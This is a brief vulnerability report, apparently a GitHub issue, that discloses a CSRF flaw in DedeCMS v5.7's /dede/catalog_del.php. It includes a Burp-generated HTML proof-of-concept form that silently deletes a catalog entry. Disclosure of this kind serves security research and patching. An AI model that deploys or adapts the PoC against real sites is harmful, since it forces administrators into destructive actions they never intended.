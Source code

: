 target:https://github.com/wdsunwq/DedeCMSv5
version: v5.7

DedeCMS v5.7 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /dede/catalog_del.php

![1](https://github.com/itsqian797/cms/assets/161734504/5a0a06ba-002b-409d-a195-829a763a33bd)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/src/dede/catalog_del.php" method="POST">
      <input type="hidden" name="id" value="20" />
      <input type="hidden" name="dopost" value="ok" />
      <input type="hidden" name="delfile" value="no" />
      <input type="hidden" name="imageField1&#46;x" value="35" />
      <input type="hidden" name="imageField1&#46;y" value="4" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


```

![2](https://github.com/itsqian797/cms/assets/161734504/f9f14901-1217-4a4e-9fd2-9f065658254a)


Successed

